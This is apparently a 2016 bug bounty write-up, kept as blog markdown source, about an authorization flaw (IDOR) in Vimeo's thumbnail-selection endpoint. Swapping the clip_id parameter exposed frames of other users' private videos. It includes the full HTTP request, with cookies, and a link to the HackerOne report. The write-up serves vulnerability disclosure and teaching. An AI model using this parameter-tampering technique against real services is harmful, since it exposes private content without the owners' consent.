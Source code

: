 ```yaml
---
title: Abusing Thumbnails to see Vimeo private video
date: 2016-05-11 00:00:00 +02:00
categories:
- IDOR
- Privacy
layout: post
excerpt: https://vimeo.com/upload/select_thumb uri is used set a thumbnails on your
  vimeo video. https://vimeo.com/upload/.............
comments: true
thumbnail: japan.jpg
---
```


https://vimeo.com/upload/select_thumb URL is used to set thumbnails to your Vimeo video. https://vimeo.com/upload/select_thumb URL request is composed of 3 parameter clip_id, token, and time. clip_id parameter is used to select a video you want to get a thumbnail, the token is an anti-CSRF token and time parameter is the time frame of the video you selected.

I changed the value of clip_id parameter to another video id to test some authorization flaw, it seems, it works because I got HTTP/1.1 200 OK and I short JSON response that contains a URL, like this one

```
{"success":true,"id":503302458,"url":"https:\/\/i.vimeocdn.com\/video\/503302458_100x75.jpg"}
```


To confirm this is an authorization flaw, I make an another account and upload a private video on that account and get the clip_id then make an HTTP request (https://vimeo.com/upload/select_thumb) to my attacker account using that clip_id. as a result, I got some thumbnails on a private video.

To get the whole video just iterate the time parameter!


## HTTP Request of vulnerable endpoint
{% highlight text %}
POST /upload/select_thumb HTTP/1.1
Host: vimeo.com
Connection: keep-alive
Content-Length: 101
Accept: application/json
Origin: https://vimeo.com
X-Requested-With: XMLHttpRequest
X-Request: JSON
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36
Content-type: application/x-www-form-urlencoded; charset=UTF-8
DNT: 1
Referer: https://vimeo.com/116730756/settings
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8,et;q=0.6,fil;q=0.4
Cookie: optimizelyEndUserId=oeu1421174571879r0.30598339810967445; vimeo_cart=%7B%22pro%22%3A%7B%22store%22%3A%22pro%22%2C%22version%22%3A1%2C%22quantities%22%3A%7B%22433857%22%3A1%7D%2C%22items%22%3A%5B%7B%22id%22%3A433857%7D%5D%2C%22currency%22%3A%22USD%22%2C%22attributes%22%3A%5B%5D%7D%7D; ki_t=1421174596820%3B1421174596820%3B1421174632154%3B1%3B2; ki_r=; optimizelySegments=%7B%22198520930%22%3A%22direct%22%2C%22199004622%22%3A%22gc%22%2C%22199138489%22%3A%22false%22%2C%22213082152%22%3A%22none%22%2C%22222271074%22%3A%22true%22%7D; optimizelyBuckets=%7B%7D; language=en; clips=116730756%2C116213689; auto_load_stats=1; has_logged_in=1; stats_start_date=2015%2F01%2F11; stats_end_date=2015%2F01%2F15; site_settings=%7B%22sticky_page%22%3A%22%5C%2Fmyvideos%22%2C%22browse_format_vid%22%3A%22video%22%7D; stream_id=Y2xpcHM6MzYzNzIzODc6aWQ6ZGVzYzpbXQ%3D%3D; stream_pos=1; orphaned_upload_clip_ids_v2=%5B116730663%2C116730664%5D; vuid=971609171.1881657208; _utma=18302654.1379178336.1421173781.1421184208.1421253399.5; _utmb=18302654.28.9.1421253997197; __utmc=18302654; __utmz=18302654.1421174705.2.2.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided); _utmv=18302654.|2=usertype=basic=1^3=ms=0=1^7=video_count=0=1; vimeo=epk9krxkmr70pcdxcxxsctd7jpcdxcxmkxrx7%2Cpfftk0tftdd0fdcmvx9x92rmksckx5rrfww5dwrvv; player=""; xsrft=d816974227fe3684c41a8501f333679f.61b1f2e5e1df9aeb29e02acf641d99a9

clip_id=9digitid&token=TOKEN_HERE&time=51.283

{% endhighlight %}

**Original Report:** [Hackerone](https://hackerone.com/reports/43850)
